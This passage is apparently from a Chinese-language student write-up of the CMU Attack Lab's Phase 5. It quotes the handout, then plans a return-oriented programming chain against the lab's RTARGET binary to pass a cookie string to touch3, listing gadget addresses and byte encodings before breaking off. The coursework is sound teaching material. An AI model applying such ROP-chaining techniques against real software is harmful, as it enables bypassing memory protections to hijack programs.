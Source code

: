 ## 2.2: Level 3
>Before you take on the Phase 5, pause to consider what you have accomplished so far. In Phases 2 and 3, you caused a program to execute machine code of your own design. If CTARGET had been a network server, you could have injected your own code into a distant machine. In Phase 4, you circumvented two of the main devices modern systems use to thwart buffer overflow attacks. Although you did not inject your own code, you were able inject a type of program that operates by stitching together sequences of existing code. You have also gotten 95/100 points for the lab. That’s a good score. If you have other pressing obligations consider stopping right now.
>
>Phase 5 requires you to do an ROP attack on RTARGET to invoke function touch3 with a pointer to a string representation of your cookie. That may not seem significantly more difficult than using an ROP attack to invoke touch2, except that we have made it so. Moreover, Phase 5 counts for only 5 points, which is not a true measure of the effort it will require. Think of it as more an extra credit problem for those who want to go beyond the normal expectations for the course.

这次我们需要**让cookie以字符串的形式传递给touch3函数**。

该题的难度非常大，CMU的教授将这题作为附加题，只有5分，为了更好地理解ROP攻击，我们还是尝试一下吧。

总体上思路和part1.level3类似，我们需要将cookie字符串放置到一个安全的位置，然后通过gadget将其放到%rdi寄存器中，然后调用touch3函数。

理想转态下我们可以通过执行以下汇编指令来实现：
```asm
movq xxx, %rdi  #注入字符串的首地址
pushq $0x4018fa          #touch3的首地址
retq
```

经过测试，**在farm中的所有字节中找不到可用的push指令**。

似乎要改变一下思路了。

如果我们能够**将%rsp的值进行一些加减运算**，那么通过偏移可以很方便地得到cookie字符串的地址。

可惜经过测试，**在farm中的所有字节中找不到直接可用的递增或者递减指令**。

但是我们可以注意到**有一个函数明显是用来进行加减运算的**，即*add_xy*。

分析该函数的汇编，该函数将%rdi和%rsi相加，然后将结果放到%rax中。

**我们去寻找所有与这三个寄存器相关的指令**(这是个非常煎熬的过程。。。)

可以找到以下几个相关的gadget(从gadget集合中筛选出来的，序号未更改)
```
<gadget2>->0x401aad
48 89 e0 90 c3
mov %rsp, %rax
nop
ret

<gadget4>->0x4019a2
48 89 c7 c3
mov %rax, %rdi
ret

<gadget3>->0x4019cc
58 90 c3
pop %rax
nop
ret

<gadget5>->0x4019dd
89 c2 90 c3
mov %eax, %edx
nop
ret

<gadget8>->0x401a34
```